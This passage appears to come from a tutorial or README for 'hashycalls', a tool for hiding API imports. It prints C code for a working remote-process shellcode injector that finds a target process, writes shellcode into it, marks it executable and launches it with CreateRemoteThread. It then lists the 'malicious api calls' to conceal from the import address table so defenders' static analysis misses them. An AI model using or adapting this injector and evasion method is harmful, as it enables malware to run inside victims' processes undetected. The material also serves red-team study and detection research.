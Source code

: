 ```c
	do 
	{
		if ( Process.th32ProcessID && Process.szExeFile ) 
		{
			if (wcscmp(Process.szExeFile, TARGET_PROCESS) == 0)
			{
				hProcess = OpenProcess( PROCESS_ALL_ACCESS, FALSE, Process.th32ProcessID );
			}
		}
	} while ( Process32Next( hSnapshot, &Process ) );
	if ( !hProcess )
		return -1;
	pShellcode = VirtualAllocEx( hProcess, 0, sizeof( shellcode ), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );
	WriteProcessMemory( hProcess, pShellcode, shellcode, sizeof( shellcode ), &BytesWritten );
	VirtualProtectEx( hProcess, pShellcode, sizeof( shellcode ), PAGE_EXECUTE_READ, &OldProtection );
	hThread = CreateRemoteThread( hProcess, 0, 0, ( LPTHREAD_START_ROUTINE )pShellcode, 0, 0, 0);
	WaitForSingleObject( hThread, INFINITE );
	CloseHandle( hProcess );
	CloseHandle( hThread );
	return 0;
}
```

After we've written the injector, we'll need to identify the required api calls and feed them to hashycalls.

For process enumeration, we'll need the following api calls:
- CreateToolhelp32Snapshot
- Process32FirstW
- Process32NextW
- wcscmp

For injection, we'll need:
- OpenProcess
- VirtualAllocEx
- VirtualProtectEx
- WriteProcessMemory
- CreateRemoteThread
- WaitForSingleObject
- CloseHandle


At this stage, the compiled injector has our malicious api calls exposed in the import address table. This can be verifed by dumping the imports with a tool like dumpbin.

###### Dumping the exposed functions from the import address table
![exposed](../../img/dumpbin-iat-exposed.png)

## Step 1; Generating the template
In step 0, we identified the required api calls. Lets run the command below to generate a template for them.
